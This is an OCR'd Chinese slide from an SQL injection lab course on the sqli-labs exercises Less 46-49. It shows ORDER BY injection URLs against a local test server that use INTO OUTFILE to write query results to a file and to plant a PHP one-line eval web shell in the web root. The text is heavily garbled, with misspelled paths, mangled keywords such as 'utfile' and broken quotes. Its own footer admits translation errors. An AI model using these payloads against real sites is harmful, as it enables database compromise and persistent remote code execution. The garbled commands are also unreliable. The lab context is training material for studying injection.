

# 补充_ LESS46-49关 其他用法01
在less46- 49关中，我们通过对order by存在的注入部分进行了简单的分析，我们思考在这几关卡中能有其他的方法吗?
1.我们利用在less45关写一句话的方法，类比将查询结果写到一个文件中:
http://127.0.0.1/sqli/Less-49/?sort=0' into outfile 'C:lphpstudy\PHPTutoralAWWW\crow.txt’ --+
2.我们写一句话木马:
php-句话木马: <?php @eval($_ POST'crow]); ?>
绝对路径: C:\phpstudy\PHPTutoriaNWWW\
使用函数: select Xx into outfile xxx
select '<?php @eval(S_ POST[crow]);?>' into utfile C:\pstudy\PHPTutoriaNWWW\crow.pbp'(不要直接复制，自己照
着打)
http://127.0.0.1/sqli/Less- 49/?sort=0 and (select ‘<php @eval($_POST[‘crow’];?>’) into  outile C:\phpstudy\PHPTutorialNWWW\crow.php’ -+ (注意这个地方是有括号的， 他和以前的不一样)
说明：这里使用的是qq的自动翻译功能，其中难免会有错误，希望大家理解并指正！！！